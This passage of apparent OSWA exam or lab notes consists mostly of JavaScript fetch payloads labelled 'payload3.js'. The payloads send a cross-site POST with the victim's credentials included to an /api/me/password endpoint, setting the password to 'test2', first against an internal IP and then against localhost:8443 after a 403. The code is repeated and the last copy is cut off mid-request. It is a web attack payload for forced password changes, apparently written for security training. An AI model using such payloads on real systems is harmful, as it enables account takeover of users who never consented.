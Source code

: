 ```bash
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9",
    "content-type": "application/x-www-form-urlencoded;charset=UTF-8",
    "priority": "u=1, i",
    "sec-ch-ua": "\"Not=A?Brand\";v=\"24\", \"Chromium\";v=\"140\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Linux\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "cross-site",
    "sec-fetch-storage-access": "active"
  },
  "referrer": "http://192.168.62.62/",
  "body": "password=test2",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```
got a `403` error 
![[ss-20250919-OSWA-Exam-ShareNotez-pic15.png]]going to retry from localhost context
payload3.js
```bash
fetch("https://localhost:8443/api/me/password", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9",
    "content-type": "application/x-www-form-urlencoded;charset=UTF-8",
    "priority": "u=1, i",
    "sec-ch-ua": "\"Not=A?Brand\";v=\"24\", \"Chromium\";v=\"140\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Linux\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "cross-site",
    "sec-fetch-storage-access": "active"
  },
  "referrer": "http://192.168.62.62/",
  "body": "password=test2",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```


```bash
fetch("https://localhost:8443/api/me/password", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9",
    "content-type": "application/x-www-form-urlencoded;charset=UTF-8",
    "priority": "u=1, i",
    "sec-ch-ua": "\"Not=A?Brand\";v=\"24\", \"Chromium\";v=\"140\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Linux\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "cross-site",
    "sec-fetch-storage-access": "active"
  },
  "referrer": "http://192.168.62.62/",
  "body": "password=test2",
  "method": "POST",
```